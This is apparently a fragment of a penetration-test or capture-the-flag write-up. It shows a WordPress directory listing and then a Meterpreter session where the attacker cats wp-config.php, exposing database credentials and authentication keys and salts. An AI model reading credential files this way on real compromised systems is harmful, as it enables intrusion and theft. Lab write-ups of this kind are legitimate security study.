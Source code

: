 ```
100666/rw-rw-rw-  7786   fil   2016-07-13 18:07:29 +0530  wp-mail.php
100666/rw-rw-rw-  13920  fil   2016-08-13 21:32:31 +0530  wp-settings.php
100666/rw-rw-rw-  29890  fil   2016-05-25 02:14:29 +0530  wp-signup.php
100666/rw-rw-rw-  4035   fil   2014-12-01 02:53:23 +0530  wp-trackback.php
100666/rw-rw-rw-  3064   fil   2016-07-06 18:10:29 +0530  xmlrpc.php
```

```php
meterpreter > cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', '');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         '@?FmT&ouV>E*ewlU/+^zSaLho=}qI`luZ5d$WNy_GU($^{@D&T:LG*)fMZjRog&{');
define('SECURE_AUTH_KEY',  'f:{OGNAj-H1Cp0h 0LC8v@wx$Z4%C)oUXpq$dC@`Qr{5/;r`t|Cy8.3N$SseLlVd');
define('LOGGED_IN_KEY',    '~RrV)Vczu}#VNiWwJq$s}[7J>gB#3GE(ZtuWm|Qea+lZ)hse~stP~.B@xYui>{%q');
define('NONCE_KEY',        'GPh]GLXqi[z&mralkItzn=H&#(Z?<blSZ1Y7<tcQor:z4z 2H[f{PJR0#iz v%gK');
define('AUTH_SALT',        'UMb|`KU:Eys4j)`F+svcr1@KifSy{~3}]#$dA^!?x6pe]Qfl$+!!1P)w^D}jw4=/');
```